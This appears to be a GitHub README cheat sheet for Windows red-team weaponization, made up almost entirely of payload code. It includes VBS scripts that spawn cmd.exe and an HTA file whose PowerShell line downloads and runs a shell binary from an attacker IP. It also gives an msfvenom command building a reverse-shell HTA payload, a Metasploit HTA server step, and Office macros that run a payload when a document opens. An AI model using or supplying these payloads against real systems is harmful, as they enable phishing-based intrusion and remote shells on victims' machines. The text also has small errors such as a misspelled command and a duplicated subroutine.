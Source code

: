 # RT-CHEATSHEET
# Windows Red Teaming Related Shit
Weaponization
# Vbs
Sample Payload<br>
Set shell = WScript.CreateObject("Wscript.Shell")<br>
 shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True<br>
 shell.Run("C:\Windows\System32\cmd.exe " & WScript.ScriptFullName),1,True<br>
## Run<br>
  wscript hello.vbs<br>
  wsccript /e:VBScript payload.txt

# Hta
Sample<br>
<html><br>
<body><br>
<script><br>
    // var c= 'cmd.exe'<br>
  var c = "powershell iwr -uri 'http://10.10.14.6/customshell.exe' -Outfile C:\\Windows\\Tasks\\a.exe;C:\\Windows\\Tasks\\a.exe -e cmd.exe"<br>
    new ActiveXObject('WScript.Shell').Run(c);<br>
</script><br>
</body><br>
</html><br>
## Generate Payload
Serve hta with web server (eg. python)<br>

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o xxx.hta<br>
## Metasploit Create And Serve Hta<br>
use exploit/windows/misc/hta_server<br>

## Vbs
Basic Payload<br>
Sub Document_Open()<br>
  EXECUTE<br>
End Sub<br>
<br>
Sub AutoOpen()<br>
  EXECUTE<br>
End Sub<br>
<br>
Sub EXECUTE()<br>
   MsgBox ("Welcome to My Room!")<br>
End Sub<br>
<br>
Sub EXECUTE()<br>
    Dim payload As String<br>
    payload = "calc.exe"<br>
    CreateObject("Wscript.Shell").Run payload,0<br>
End Sub<br>
### Msfvenom<br>
### Note: if using .doc files change WorkbookOpen to Documentopen If using excel, no changes needed<br>